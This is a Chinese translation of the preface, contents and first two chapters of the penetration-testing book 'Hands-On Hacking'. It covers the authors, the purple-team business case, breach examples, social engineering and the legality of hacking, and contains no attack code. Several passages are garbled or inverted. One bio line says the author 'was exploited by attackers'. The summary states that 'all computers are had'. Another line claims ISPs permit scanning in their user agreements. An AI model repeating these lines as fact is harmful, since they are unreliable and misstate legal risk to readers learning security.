# Hacking 实用指南：成为下一代渗透测试与紫色团队专家


本书献给所有寻求计算机黑客技术知识和理解的人。我们希望这本书能帮助引导你——未来的和现在的黑客——实现你的目标和愿望。

# 关于作者

## Matthew Hickey

Matthew Hickey 是一位拥有20多年经验的专业黑客，网络安全公司 Hacker House 的联合创始人。他在职业生涯中获得了多种 CISSP CHECK 和 CREST 认证，并因其技术能力获得 CREST 学员称号。他经常受邀领导长期评估，准确反映真实世界的安全挑战，模拟对全球企业和高风险环境的攻击。此外，他被恶意攻击者利用，以便寻求并实施适当的修复措施。他为网络安全测试任务开发定制的漏洞和安全工具。

Matthew 大部分时间都在黑入计算机、进行渗透测试、创建培训材料、编写漏洞以及开发黑客工具。他曾发布过关于北朝鲜智能手机中监控软件的详细说明，并曾在会议上展示他关于嵌入式系统安全、密码学、软件漏洞利用、移动解决方案和无线技术的研究。

Matthew 因其工作拥有大量在线粉丝，并经常在媒体上对网络安全话题发表评论，例如发现操作系统关键漏洞时、涉及加密货币的攻击、北朝鲜网络安全、NSA 泄露的攻击工具以及英国国家医疗服务体系（NHS）的安全。他针对产品供应商开发并发布了零日漏洞和安全工具。


## Jennifer Arcuri

Jennifer Arcuri 是一位专注于网络安全意识和培训的连续企业家。她是总部位于英国 Hacker House 的创始人兼首席执行官。2012年，她创立了 InTech，这是一个高规格的活动，汇聚了政策制定者、企业和初创企业，旨在弥合法律与技术之间的鸿沟。2014年，她在伦敦东部作为一个黑客社区创立了 Hacker House，从那时启动了在线培训门户，以帮助更多人进入网络安全行业。在过去的几年里，Hacker House 培训了全球的学生，并扩展了其工作范围，以帮助公司采取安全策略。她的工作在其 TEDx 演讲《为什么21世纪伦理黑客很重要》中变得广为人知，这有助于推动英国的政策变革。Jennifer 还是全英国范围内各种围绕网络欺凌、安全泄露应对措施以及儿童网络安全活动的不可或缺的一部分。

# 致谢

作者们感谢 Wiley 的编辑团队，特别是 Gary Schwartz、Kevin Cardwell 和 Megan Daudelin，感谢他们在项目过程中提供的反馈、建议和技术支持，这使得这本书比没有他们的参与时要精彩得多！我们还要感谢 Wiley 的其他所有人，特别是 Barath Kumar Rajasekaran，感谢他们整个过程中持续的耐心与理解；尽管遇到了一些波折，但你们一直与我们在一起。最后，Hacker House 感谢 Elisa Tidswell 和 Edward Archer 在本书创作期间在公司提供的所有帮助。

# 目录

## 第 1 章 商业案例攻击

## 第 2 章 合理合法的攻击

## 第 3 章 构建你的黑客箱

## 第 4 章 开源情报收集

## 第 5 章 域名系统

## 第 6 章 电子邮件

## 第 7 章 漏洞的万维网

## 第 8 章 什么是 VPN？

## 第 9 章 文件与共享

- RPCinfo
- 服务器消息块 (SMB)

## 第 10 章 UNIX

## 第 11 章 数据库

## 第 12 章 Web 应用

# 提权

## 第 13 章 Microsoft Windows

## 第 14 章 密码

- 总结

# 前言

本前言由 Rey Bango 写，他是微软的一位安全倡导者，致力于帮助社区构建安全系统，并代表微软内部的安全从业者发声。在担任了近30年的软件开发人员后，Rey 转入了网络安全领域。

我从未想过自己会成为一名网络安全专业人员。我当软件开发人员的时间太长，转换职业的想法从未真正出现在我的脑海中。我想我和其他开发者一样，将安全视为一个 IT 问题——而不是软件问题——那么我为什么要担心它呢？老天，我大错错了。

现实情况是，随着坏分子不断尝试绕过公司建立的防御，他们的手段也在不断进化。随着公司向云原生托管解决方案迈进，针对基础设施的攻击变得更加昂贵且耗时。在犯罪世界中，时间就是金钱。对于网络犯罪分子来说，寻找更容易的切入点是明智得多的投资。

这正是 Web 服务大显身场。开发者在构建系统时不可避免会犯错（毕竟我们是人），无论是输入过滤不当，还是无意中泄露暴露在公共 git 仓库中的 API 密钥。这些错误可能是代价昂贵的，也正是促使我研究安全领域的原因。

我一直设想坏分子专注于基础设施侧，通过在操作系统和系统服务中寻找漏洞来获取网络访问，或利用配置错误来获取价值信息。然而，现在出现了越来越多的文章，讲述这些同样的坏分子如何利用设计不当的应用程序和软件框架来破坏系统——甚至获得了全网络访问权限！这既让我感到恐惧，也激起了我的兴趣。我想学习更多。

互联网上拥有关于如何“破解某物”的丰富信息，但对于安全初学者来说，试图将所有信息拼凑成易于理解的内容是一项艰巨的任务。过量的信息很容易让初学者不知所从，并让他们怀疑网络安全是否是他们的正确选择。这种情况就发生在我身上。我很快被大量的安全博客文章、视频和工具所淹没，这些工具本身很棒，但并没有提供一个统一的布局来告诉它们在安全版图中处于什么位置。我想要一种结构化的方法来学习安全专业人员测试系统时使用的技术。这就是 Hacker House 出现的地方。

Hacker House 提供了一套课程，让我能够开发理解坏分子如何运作所需的基础技能。他们不仅回答了某些攻击“如何”发动，还解释了“为什么”在不同场景下使用特定的技术和工具。

当我第一次获取 Shell（`pop a shell`）时，我产生了一个“啊！”时刻，意识到需要了解坏分子是如何工作的。

> [注：提供的第 19-21 页 OCR 文本包含重复/无意义的短语；已进行清理以保持基本可读性，但保留了提供的原始素材。]

# 谁应该读此书

本书不仅面向那些寻求道德黑客攻击和渗透测试入门的读者，也面向每一位准备好认真对待安全问题的网络或系统管理员以及首席信息安全官（CISO）。我们认为，要完全理解公司将如何成为目标并被攻破，必须像攻击者一样思考和行动。读者将从阅读这本书中获得乐趣，并对对攻击者的心理获得独特的洞察。对于那些想更进一步的人来说，书中穿插了大量的实操练习。完全掌握内容的人将学到进行渗透测试所需的技能，无论是在他们工作的公司内部还是为外部客户服务，并发现关键的安全漏洞。

《实战黑客攻击》（Hands-on Hacking）对于任何最近在工作中承担信息安全责任的人来说都是必读之目。读者职业可能并非始于 IT 领域，但这本书将让他们对影响任何计算机用户的问题有深入理解。读者需要对计算有浓厚的兴趣才能从内容中获益，但不需要太多的实践经验。我们将深入探讨各种技术——构成互联网、万维网和内部网络的协议——然后学习如何攻击它们。

本书重点关注 Linux；即使你对该操作系统几乎没有了解或经验，我们也会全程手把手，直到你精通 Linux 命令行界面。我们甚至会教你如何在不影响现有系统（无论是 Windows 还是 macOS）的情况下在你电脑上安装 Linux。

# 你将学什么

你将学习如何从渗透测试员或道德黑客的角度，使用恶意黑客所使用的技能和技术来接触目标组织。你的旅程将从源情报收集开始，移动到典型组织的外部网络基础设施。我们将寻找漏洞和弱点，并最终通过虚拟专用网络（VPN）服务器进入公司的内部网络，并在过程中解释一切。那些不一定想亲手执行攻击的人将确切了解到他们的公司是如何收集信息的，以及攻击者在黑入之前是如何探测漏洞和弱点的。

一旦我们暴露了内部基础设施，我们就会找到运行 Linux、UNIX 和 Windows 的机器——每种机器都有自己的漏洞。

使用一系列工具，我们将利用各种漏洞。我们还将观察这些工具的工作原理以及它们在底层执行了什么，以便读者理解如何手动利用漏洞。

我们将获得多个不同计算机系统的访问权限并最终获得管理员权限，使我们能够完全接管被入侵的系统。在此途中，我们将从访问过的服务器中收集“战利品”。其中将包含许多哈希密码，你将在最后一章学习如何破解它们！

最后，我们将向读者展示如何通过编写发现报告来使整个流程化，这些报告应适用于公司高管、客户或同事（无论他们的技术理解能力如何），以及与外部客户的合作是如何构建的。

读者可以使用实验室来练习他们遇到的许多技能——这些实验室是为安全、合法的黑客攻击设计的沙箱环境。这些实验室向购买本书的读者免费。对于那些想要了解攻击者可以对公司做些什么的人来说，漏洞利用的描述方式是符合逻辑的，并帮助你意识到缺失补丁可能造成的损害。

# 本书的结构

本书从一个解决公司高管需求和顾虑的章节开始，随后是对计算机黑客的法律和伦理方面进行的重要回顾。第三章“构建你的黑客箱”是第一个实操章节。在该章中，我们向你展示如何设置计算机，以便执行书中其余部分的活动。第四章“开源情报收集”详细介绍了在主动黑入组织网络之前所采取的被动情报收集过程。第 5 至 13 章涵盖了典型组织基础设施的特定领域，并根据需要引入新的工具和技术。第 14 章“密码”专门关注密码存储以及如何检索它们，第 15 章“编写报告”是最后一章，探讨如何编写你的黑客结果结果以便问题得到修复。

**第一章：黑客攻击业务案例** 将安全问题转化为业务问题并理解其使命目标是有效使用该书的关键元素。这一章完全关于会议室、风险，以及理解如何将计算机网络前线的信息传回给负责业务决策的人员。

**第二章：道德且合法地进行黑客攻击** 我们对黑客攻击的法律和伦理方面进行了简要介绍。并不是每个黑客都是罪犯——恰恰相反。我们将提供关于如何留在法律允许范围内以及如何专业地进行黑客攻击的建议。

**第三章：构建你的黑客箱** 是时候付诸实践了。在这一章中，你将学习如何逐步设置你的计算机系统，使其准备好开始黑客攻击，同时不会阻碍你将其用于日常工作和休闲活动。我们还将展示如何在虚拟机（VM）中设置你的第一个实验室，以便你有一个可以安全探索和利用的目标。

**第四章：开源情报收集** 在开始攻击计算机系统之前，你将学习如何被动地收集关于目标的信息。我们将在这一章中使用真实案例，因为我们正在寻找使用公开可用信息，但可能与你以前见过的不同。

**第五章：域名系统** 域名系统（DNS）是我们所有人都依赖的东西，但我们许多人对它的工作原理并不了解。在这一章中，你将确切了解什么是 DNS 以及组织和个人是如何依赖它的。然后你将学习一些收集信息和寻找漏洞的实用技术，最后进行利用。我们将在本章中介绍一些重要的工具，包括 `Nmap` 和 `Metasploit`，这对于理解本书的内容至关重要。

**第六章：电子邮件** 通过这一章，你将理解电子邮件服务器的工作原理以及如何攻击它们。本章涵盖了电子邮件协议基础、中继、信箱、网页邮箱以及可用于破坏电子邮件系统的所有技巧。我们演示了黑入邮件服务器的过程。

**第七章：万维网的漏洞** 人们认为，由 Tim Berners-Lee 在 1990 年发明的万维网是我们存在的基础。你将学习它是如何基于过时的协议的，以及如何攻击支持你喜爱的网站和应用程序的基础设施。

**第八章：虚拟专用网络** VPN 是个人和公司使用中一种日益流行的解决方案，无数员工使用这项技术远程登录你公司的内部网络。我们将拆解 VPN 的一些工作方式，当然，以及如何像黑客一样对待它们。

**第九章：文件和文件共享** 直到此为止，你已经从外部视角查看了典型组织。现在是时候进入内部边界，看看内部网络中有什么了，从文件服务器开始。在这一章中，我们将涵盖为了更好地掌握 Linux 文件系统所需的理论，以及如何使用文件和文件共享技术在系统中建立立足点。

**第 10 章：从 Linux 切换到 UNIX** 到此为止我们的重点一直是 Linux，在本章中，我们将介绍 UNIX 系统。我们将向你展示这些操作系统的一些特性和漏洞，供你探索和利用。

**第 11 章：数据库** 在本章中，我们首先介绍如何使用结构化查询语言（SQL）进行基础数据库管理，然后演示利用数据库其他特性的攻击。本章是理解数据库工作原理以及如何利用它们的基础，我们将在后续章节中继续解释。

**第 12 章：Web 应用** Web 应用是几乎每个组织业务的一部分，也是一个巨大的目标。本章涵盖了 Web 应用的基础知识，重点关注困扰全球范围内公司的危险攻击类型。你会发现之前学的内容在 Web 应用中非常常见。

**第 13 章：Microsoft Windows** 到此为止，你已经看到了 Linux 和 UNIX 操作系统的各种漏洞。现在是时候目光转向 Windows 操作系统了。重点是 Windows Server，与 Linux 类似，Windows Server 可以托管 DNS、电子邮件和文件共享服务。我们将帮助你将 Linux 技能迁移到 Windows。

**第 14 章：密码** 在整本书中，我们都提到了密码及其哈希值。在本章中，你将有机会理解密码是如何哈希的，以及人们每天依赖的固有问题。我们将提供关于破解密码的指南。

**第 15 章：编写报告** 作为一名道德黑客或渗透测试人员，如果你无法将发现的结果传给客户、同事或上级，毫无意义。渗透渗透报告需要一套全新的技能，我们将教你如何使用示例报告进行有效的沟通。

# 硬件和软件要求

为了跟随书中的练习，你需要一台运行 Windows、macOS 或主流 Linux 发行版的笔记本电脑或台式电脑，并有足够的硬盘或固态硬盘空间安装章节所示的软件。你还需要足够的内存（RAM）来运行虚拟机，以及连接互联网以下载所需的一切。我们将在第 3 章“构建你的实验室”中介绍硬件和软件要求，并引导你完成的所有步骤。以下是最低要求：

- 现代 Intel 或 AMD CPU（带有 SIMD 扩展 SSE2，几乎所有处理器都支持）
- 4 GB 内存
- 50–100 GB 硬盘 (HDD) 或固态硬盘 (SSD) 空间
- 用于下载软件和运行演示的互联网访问

# 如何使用本书

这本书的设计旨在是从头到尾阅读的，几乎每一章都有你可以在阅读过程中完成的实践活动。即使不执行任何活动，阅读这本书仍然通俗易懂。或者你可能是那种喜欢先读一遍，然后再回到实践部分的读者？无论如何，为了充分利用《实战黑客术》，你需要尝试实战练习，我们将教你如何做。

即使大多数章节都是针对组织网络基础设施特定特定，直接跳到你最感兴趣的章节可能会让你头疼。这是因为我们在书中早期介绍了一些概念，你之后将在不同的黑客领域需要它们。在后面的章节中，你会发现对介绍过的工具和技术的简要回顾，以及如何在新的环境中应用它们。

要执行从第 3 章“构建你的实验室”开始的实践活动，你需要确保可以访问 `www.hackerhouse.com` 下载的内容。你需要使用用户名 `student` 和密码 `student` 访问 `/files`。此身份验证的唯一目的是防止搜索引擎将我们的网站标记为恶意。文件中有很多潜在的恶意代码（你将学会负责任地使用）。此链接将允许你下载包含大量工具的单个 `files.gz` 压缩包。该网站还有三个实验室：来自 Hacker House 的邮件服务器和 UNIX 实验室，以及一个专门为本书创建的实验室，单次下载即可包含多个实验室。该内容在 Wiley 网站上有镜像，地址为 `www.wiley.com/go/handshacking`。设置自己的电脑以执行实践活动的细节涵盖在第 3 章“构建你的实验室”中，但你应该先阅读第 1 章和第 2 章。

我们引用的其他软件和工具通常是开源且免费提供的，可以从相关开发者网站下载。

# 如何联系作者

你可以通过 `info@hacker.house` 联系书作者。如果你发现任何错误或遗漏，或者有任何一般的反馈，我们非常欢迎听取你的意见。

如果你对我们补充本书内容的在线培训感兴趣，请访问 `hacker/house/training`。随书的任何更新和实验室都将在 `www.hackerhouse.com` 发布。你可以在我们的主页 `hacker.house` 了解更多关于 Hacker House 和我们的服务。

# 第 1 章：黑客企业

## 所有电脑都是脆弱的

在网络安全领域，有一句俗话：“所有的电脑都是脆弱的”。在 Hacker House，我们有一种说法：“所有的电脑都是脆弱的”。黑客并不“破坏”电脑或软件；相反，电脑本身就是脆弱的。现代计算建立在信任和天真的基础之上，这种基础在设计之初并没有考虑安全性。

负责组织内部的信息安全是一项巨大的任务。这通常属于组织的 CISO（首席安全官）。数据（包括数字数据以及如今的纸质记录）面临系统故障、自然现象或恶意攻击的威胁。在较小的组织中，可能没有 CISO 这个正式职位，这时企业老板或 CEO 可能会承担这一角色。保护资产免受持续、隐藏且无处不在的攻击是一个巨大的责任。如果出现问题（遗憾的是经常发生），后果非常严重。数据泄露可能给企业带来严重的财务和声誉损失，CISO 可能会失去职业——这一切仅仅源于技术丰富的攻击者的几次鼠标点击和几次键盘输入。

WhatsApp，一个即时消息应用程序，曾容易受到一种攻击，允许攻击者控制受害者的智能手机并抵消了 WhatsApp 端到端加密的影响。这种加密允许用户之间发送私有消息（WhatsApp 最大的卖点）。

- 安全公司趋势科技（Trend Micro）的客户记录被其内部员工盗取。这些记录被用于拨打客户电话进行诈骗。此案例凸显了内部安全控制的重要性，而不仅仅是对面向公共服务的保护。

- 信用卡提供商 Capital One 的超过 1 亿名客户的个人信息被恶意黑客盗取，据称该黑客利用了一个配置不当的 Web 应用防火墙——这本是一种旨在保护网站免受攻击的技术！被盗的记录包括姓名、物理地址、社会安全号码和银行详情。在 2019 年 7 月遭受攻击后，Capital One 预计攻击相关的成本高达 1.5 亿美元。

- 2019 年 12 月，英国公司 Travellex 因受到勒索软件攻击而登上头条。在勒索软件攻击中，攻击者实际上窃取数据并要求支付赎金以归还。此案例中的赎金为 600 万美元，尽管 Travellex 似乎能够在不向犯罪分子付费的情况下恢复其数据。这不能适用于所有受勒索软件影响的组织和个人。


这些只是不断发生的泄露事件中的少数几个。如果你认为这些攻击的频率和影响令人恐惧，请考虑这种状况预计只会变得更糟。公司内部潜在漏洞的数量、数据量，以及我们对这些数据的法律和道德责任正在以指数级速度增长。

此外，这些威胁的增长速度远快于行业处理它们的能力，特别是对昂贵的渗透测试人员的依赖——即那些拥有发现和报告组织计算机安全漏洞专业技能的人。因此，首席安全官（CISO）发现自己处于一个几乎不可能完成的境地——在收益递减的情况下保护更多内容。必须发生改变了。

幸运的是，你有机会发现紫队对抗——即开发高技能内部团队和强大企业安全文化的行为不仅可行，而且实用且具有成本效益。

紫队对抗是企业网络安全的现代且高效的方法，每家企业（无论是小型机构还是跨国集团）都迫切需要。换句话说，紫队团队对每家公司都是至关重要的，因为它们为你提供了关于攻击者如何运作的洞察，以及如何防止攻击成功的指导。

# 第1章：破解商业案例

## 风险与代价

在我们深入了解紫队对抗以及它是如何运作的之前，让我们仔细观察目前大多数 CISO 和企业运营的危险背景。

## 什么被盗取了，以及为什么有价值

数据是有价值的。数据可以用来操纵认知、转移资金、赢得选举、击败竞争对手、使高管获得录用或失败、挟持并积累人质，甚至可能引发战争……名单长之完完。简而言之，数据是企业新的财富创造源。这是一门大生意。

遗憾的是，许多公司（当然，除了他们的 CIO 和 CISO 之外）并没有意识到其数据的价值。“为什么会有人偷取我们的照片或前台人员使用的登录详情呢？这听起来熟悉吗？”今天更好问的问题是，“为什么他们不想偷取这些数据呢？”最好不要假定数据没有价值——对攻击者来说，万物皆有价值。恶意黑客看重数据，因为如果需要，数据很容易在黑市场上交易以换取快钱。通常，个人或组织的唯一动机就是窃取数据。

数据被定义为可以处理成有用信息的原始格式信息。数据无处不在：工资单、销售数字、银行和信用卡详情、个人身份识别、电子邮件、分析、密码、监控、统计、政府文件、医疗记录、科学报告、法律文件、订阅信息、竞争对手网站、财务记录……名单长之层出不穷。当然，我们变得越“精明”（智能手机、智能手表、虚拟助手、智能插座、智能温控器、智能冰箱、视频门铃、电动汽车、智能锁……再次强调，这是一个很长的列表），产生的数据就越多，或者说，不安全的数据就越多。

## 脆弱性设备的互联网

遗憾的是，在安全方面，大多数智能设备并不精明。无论制造商是无不知情还是被风险淹没，或者仅仅是因为他们选择忽视它们（毕竟安全投资会影响利润率），每年产出的智能设备都缺乏内置安全。这些设备（数以亿计）每天都在家庭和企业中使用，其中大多数让我们的宝贵数据面临风险。

CISO 们非常清楚现实是，我们并没有物联网（IoT）——我们拥有“脆弱性设备的互联网”。现在，CISO 在同意在公司的物业组合中安装智能温控器，或者考虑董事会成员是否应该佩戴智能手表时，必须考虑两次（如果有人会向他们咨询这些决策的话）。

为了退出，公司对其持有和处理的数据在法律意义上承担着越来越多的责任（这是理所的）。例如，欧盟的《通用数据保护条例》（GDPR）法律意味着，公司需要对数据（如个人的 IP 地址或 Cookie 数据）实施与对姓名和地址相同水平的保护。GDPR 的一些关键隐私和保护要求包括获得数据主体处理数据的同意、对收集的数据进行匿名化以保护隐私、提供泄露通知、安全地处理跨境数据传输以及要求数据保护官。

## 蓝队、红队和紫队

蓝队是“防御者”——他们维护系统以确保安全、响应事件并缓解威胁。理想情况下，蓝队能够看到攻击正在发生，并在造成损害之前采取行动。

红队是独立的专业小组，他们通过扮演敌人的角色来挑战组织的安全性。他们使用与恶意黑客相同的工具和技术来发现漏洞。

紫队对抗是蓝队和红队之间的协作，旨在提高组织的整体安全态。传统的信息安全往往是孤立的，但紫队对抗确保了红队的发现能够被蓝队有效利用，以加强防御。

## 资源匮乏、时间有限与缺乏激励

**资源匮乏：** 许多公司表示，其网络安全团队人手不足，而且由于大部分预算花在了渗透测试上，因此往往没有空间引入更多资源。

**时间有限：** 公司很难重新分配员工资源来阅读冗长的技术报告并修复漏洞，尤其是当蓝队通常在多个战线上忙“救火”（处理突发事件）时。

**缺乏激励：** 对于首席信息安全官（CISO）来说，激励员工去阅读一份由他人（且其薪水可能高得多）编写的冗长渗透测试报告并修复漏洞，是一项挑战性。

有时候，当红队或渗透测试人员（无论内部还是外部）指出缺陷时，蓝队成员会产生防御心理：互相指责、产生敌意，内部混乱随之而来。随后，CISO 发现自己处理的人力资源问题可能不比处理技术问题还要多。

从根本上说，传统蓝队与红队、攻击者与防御者之间的差距太大了。CISO 需要成员来理解网络赋能攻击者所使用的战术、技术和程序（TTP），以及如何针对他们建立更好的防御。CISO 需要一个内部团队，能够挖掘并主动发现潜在问题，无论是更新工作站的操作系统，还是捕捉到在公司建筑全范围内安装联网恒温器的想法风声，并能够评估这是否是（好主意。

## 紫色队

在考虑数据和计算机系统的安全性时，小企业主可能会考虑此类内容：

> “我需要有效且廉价的网络安全来保护我的公司数据，这样我就可以放松并将精力放在业务增长上了。”

通过采用紫色队方法论，这两种场景都是可能的。紫色队协作是应对泄露和数据丢失爆炸式增长的简单而显见的解决方案。在紫色队协作中，专家小组同时担任红队和蓝队的角色，意在被恶意实体利用之前预测攻击并解决漏洞和弱点。紫色队负责公司的整体安全态势。他们积极参与技术模拟以理解和评估风险。他们了解公司的数字资产（每个组织的真实价值）是什么、存储在哪里，以及如何通过构建更好的网络和系统来保护它们。

这种方法使传统的蓝队 IT 能够理解黑客（以及/红队）是如何利用底层漏洞的。紫色队接受了更好的训练来“开启防火墙”，因为他们对网络犯罪分子和恶意内部人员使用的常用社会工程方法有更好的认知，例如网络钓鱼——这是一种向员工发送电子邮件诱导其点击恶意链接的技术。此类攻击有许多变体，但社会工程攻击首先利用人的因素，而不是计算机系统本身。

> **注意：** 网络钓鱼是诱导受害者提供敏感信息（如其用户名和密码或信用卡详情）的过程，通常通过一个设计成合法网站的虚假网站来实现。恶意黑客使用电子邮件和即时消息作为手段，通过发送指向其控制的欺诈网站的链接来探测受害者。网络钓鱼有变体，包括针对预先研究行为的个人的“鲸钓鱼”（whaling），以及针对 CEO 等其他高管、利用其特权职位确保一笔看似合法但实际上是欺诈的财务交易。

弥补任何红队或蓝队技能差距的最佳方法，是将他们合并为一个单一的紫色队，所有成员都获得信息技术（IT）、所需的技能、软件开发生命周期、社会工程、渗透测试、漏洞管理、补丁、系统配置以及根据 `www.nist.gov` 提供的安全技术实施指南（STIGs）等标准进行加固的理解。紫色队始终处于“准备被破解”模式。

这是绝对必要的。如果我们想要实施完全安全的实践，公司必须赋予自己的员工理解网络安全风险的能力。就是如此。这种向使安全成为业务运营核心的转变，意味着 CISO 不再向公司外部寻找答案。

有了紫色队，就不再需要支付顾问对公司基础设施进行渗透演练（这可能花费数万美元）。公司可以从他们的紫色队获得相同的结果，而无需向首席财务官（CFO）申请资金。将不再需要等待可能无法被理解也无法被执行的报告。CISO 的职业生涯将不再有阻碍。相反，时间、金钱精力将集中在创新和增长上。

为了让紫色队运作，每个人都需要对恶意黑客能对网络做什么有一个理解——实际理解。每个人都需要理解内部系统（硬件、操作系统、现成软件和定制软件）是如何工作的，以及如何对它们进行修复和打补丁以降低风险。我们并不是说整个团队必须是所有这些领域的专家，但他们必须对每个成员的专业领域有足够的了解，以便有效协作并相互产生共情。

> **注意：** 黑队是红队的扩展形式，提供网络攻击和物理现场攻击模拟的结合，有时被称为近接入小组。黑队不仅考虑防火墙、入侵检测系统和防病毒软件等网络防御，还需要评估监控摄像头、报警系统和布线技术，以及任何现有的公共和私人安全支持。大多数商业实体很少需要黑队（如果需要的话），其使用通常仅限于可能面临网络赋能和物理现场攻击者入侵风险的关键基础设施和安全设施。

## 破解是你公司免疫系统的一部分

要转向有效的信息安全，你必须重新思考你处理安全的方法。这从于抛弃社会告诉我们关于黑客的所有恐惧性洗脑——那些穿兜帽的人、黑暗的地下室和犯罪。以下是为什么这至关重要：有效网络安全的真正答案是让企业学会如何成为黑客——也就是说，能够做黑客做的事。

为了建立伟大的防御，你需要知道正在向你的什么。没有人会在不对对手进行侦察、分析其弱点并采取措施加强弱点的情况下去战争。然而，这正是公司一直在做的事情——他们没有仔细观察自己的弱点。为了让组织对网络攻击具有更强的弹性，他们必须像黑客一样思考，就这样。

影响这种方法的一种方式是询问客户和学生：“你破解过你自己的家吗？”当然，大多数人都过（通常是他们丢了钥匙，至少爬过一次卧室窗）。这是说明像黑客一样思考的必要性的极佳方法——你尝试过破解你自己的家，难道你没有尝试过破解你自己的数字系统吗？你可能从绘制你拥有的资产开始，思考潜在的切入点，可视化人们在何时何地其中，等等。

我们可以以同样的方式思考公司。毕竟，这就是攻击者的思考方式。将事物拆解并分解到极致的好处是，在组件层面上，我们可以对有效的安全解决方案进行逆向工程，并实施攻击以帮助我们更好地理解如何保护我们的资产。

因此，现在邀请你摒弃旧的黑客观念，转而接受这一点：黑客是执着的、隐蔽的、有针对且数据驱动的。黑客是对知识的追求。

为了让公司更加安全，我们需要在整个组织建立新的网络安全习惯。这至关重要，因为大多数中小企业无法在网络攻击中生存下来，无论是因为未加密软件、未更新文件、允许共享凭据、未能确保员工点击可疑链接等。换句话说，员工是组织内部最大的漏洞领域之一。

员工错误通常是由于不遵守流程、缺乏专业知识以及每天与 Web 应用程序和网站交互导致的。因此，强有的安全态势很大程度上取决于组织内的每个人都受过教育并致力于安全。Priviti 2017 年《安全与隐私最佳实践报告》（`www.opriviti.com/us-en/insights/it-security-survey`）的研究证实了这一点。报告详细列出了前四项发现：

- 拥有积极参与的董事会和安全政策。（这会产生巨大的影响）。
- 加强数据分类和管理（数据映射并了解你所有资产的位置）。
- 安全有效性取决于政策也取决于人员。
- 供应商风险管理必须走向成熟。

这些实践在过去可能极难实施。通过“紫队对抗”，这些目标是可以实现的，因为有了技术精湛且参与度高的内部团队，首席信息安全官（CISO）拥有的人力和智力资源，可以在整个公司创建并部署有效的安全政策和文化。

紫队团队通过主动制定和传达安全政策，能够更好地减少整个公司的人为错误，确保员工意识到并参与到安全实践中。他们可以帮助确保公司从前台人员到 CEO 的每个人都知道如何实施安全流程，从理解社会工程和网络钓鱼，到对可疑链接保持警惕。这样，整个公司就变成了紫队团队的延伸。

## 社会工程

社会工程可以被视为对人类大脑的黑客，其目的通常是为了获取计算机系统的访问（至少在我们感兴趣的背景下）。社会工程考虑了人类心理学，以操纵人们执行某些操作或放弃某些关键信息。一个例子是拨打员工工作地的电话，自称是 IT 部门的成员，并要求他们访问某个网站（你控制的恶意网站）以修复你检测到的问题。该网站将用于在受害者的计算机上运行恶意代码，从而访问敏感数据。

从实践上说，政策可能包括数据保护计划（任命数据保护官是其不可或缺的一部分）、应急程序（以便每个人都知道在发生泄露时该做什么，并接受过相关培训，例如备份数据和自动更新）以及用户意识。

一旦安全成为公司文化的一部分，让董事会做出承诺也会变得更容易。事实上，董事会的参与是创建这种文化的重要因素。再次，我们可以参考 Priviti 的 IT 安全调查，该调查显示，高度的董事会参与会使管理层对公司的“皇冠上的宝石”有更好的理解，拥有更好的数据分类政策，并与员工就公司数据具体是什么以及如何处理进行沟通。

但如何让董事会参与进来呢？首先，董事会乐于、熟悉并在某种程度上讨论财务风险、市场风险、流动性风险等。因此，让我们把网络安全转化为他们的语言，将其重命名为数据风险或信息风险。（当这种情况发生时，信息往往能直击要害。）你还需要找到方法让数据报告少那么技术化，以便每个人都能理解内容。这很重要，因为 54% 的董事会表示网络安全报告太技术化了（Bay Dynamics Osterman Research, 2016）。

## 总结

所有的计算机都是有的。不存在完全安全的系统。无论大小，组织都会经常受到攻击，这通常导致大量客户数据被盗。情况似乎并没有好转，随着新（通常是连接互联网的）设备不断增加，对信息安全的理解比以往任何时候都重要。

为了保护我们的数据，我们需要理解其价值并主动防止盗窃或勒索。结合攻击者和防御者的专业知识，了解坏分子使用的方法，并促进更好的安全文化，是我们保护自己、我们的组织和数据的方法。

无论你是独立为客户工作，还是在一个已经采用或正在采用紫队对抗模式的团队中工作，你都会发现这本书的内容价值连城。也许你才刚刚开始进入信息安全领域，也许你是一个经验丰富的 IT 专业人士，希望增强自己的技能包。这本书是为你写的。

我们将检查典型组织基础设施的各个方面——即我们几乎所有人今天所依赖的技术——这些技术在安全方面往往被误解。首先，我们将在第二章“合规合法的黑客”中涵盖一些法律和伦理考虑。然后，在第三章“构建你的黑客箱”中，我们将提供技术演示，教你如何配置自己的系统进行伦理黑客或渗透测试。在随后的章节中，我们涵盖了许多黑客技术，检查了热门漏洞，并解释了重要的黑客工具。在倒数第二章，我们将查看密码以及如何从你在冒险过程中恢复的文件中提取密码。最后，我们将向你展示如何将你的发现写成报告提交给客户或高层人员，解释你发现的问题以及如何解决它们。

## 笔记

1. 参阅 `www.hackerhouse.com/.docs/how-board-com/`

# 第2章 合规合法的黑客


不幸的是，“黑客”一词带有负面含义，许多人会自动将其归类为非法活动。然而，无论是医生、律师还是老师，`黑客`这个头衔是中性的；但我们倾向于认为这些角色是“好的”。

以下来自维基百科的定义概述了技术社区中所理解的“黑客”：

> 计算机黑客是指任何利用技术知识克服问题的熟练计算机专家。虽然黑客在流行文化中是指任何熟练的程序员，但它已演变为安全黑客，即利用漏洞进入计算机系统的人。
>
> ——维基百科，2018年

利用漏洞和程序进入计算机系统是你经常要做的事情；只要你有所有者的许可，进入系统就是合法的。利用你的技能获取未经授权的访问——即没有许可的情况下——在你居住的地方通常是非法的。

## 犯罪黑客

非法黑客攻击的处罚通常非常严重，因此在开展任何工作之前，请确保你了解哪些行为是合法的。

作为此类严重黑客处罚的例子，可以看看阿尔伯特·冈萨莱斯（Albert Gonzalez）的案例。他在2010年3月25日被判处美国联邦监狱20年。冈萨莱斯从各种来源盗了大量的信用卡信息（约1.7亿个号码）。他最早的已知黑客行为之一是在14岁时未经授权访问了美国国家航天局（NASA）。

在劳里·洛夫（Lauri Love）案中，这位被美国要求引渡的英国黑客因涉嫌参与匿名组织（一个国际黑客行动主义组织）针对阿伦·施瓦茨（Aaron Schwartz）不公正待遇的抗议，面临可能的99年监禁。施瓦茨是一位美国企业家和活动家，在因多次违反美国《计算机欺诈和滥用法》被起诉后上吊自杀。有无数类似的长度刑期判决或尝试判决的例子，尤其在美国。

## 邻里黑客

通常情况下，测试你自己的台式机或笔记本电脑是合法的。但属于第三方的设备则不然，例如智能电表或机顶盒，即使它们位于你家中。如果你在工作场所或邻居的计算机系统上进行测试，在开始任何黑客活动之前，必须获得系统所有者的书面许可。向你认为负责某个特定系统的同事请求可能是不够的，如果事实证明他们并不负责该系统。如果没有适当的书面许可，你几乎肯定会违反某项法律。

你还应该考虑在连接互联网服务提供商（ISP）时运行工具的影响。他们在用户协议中允许此类活动。

## 法律灰色地带

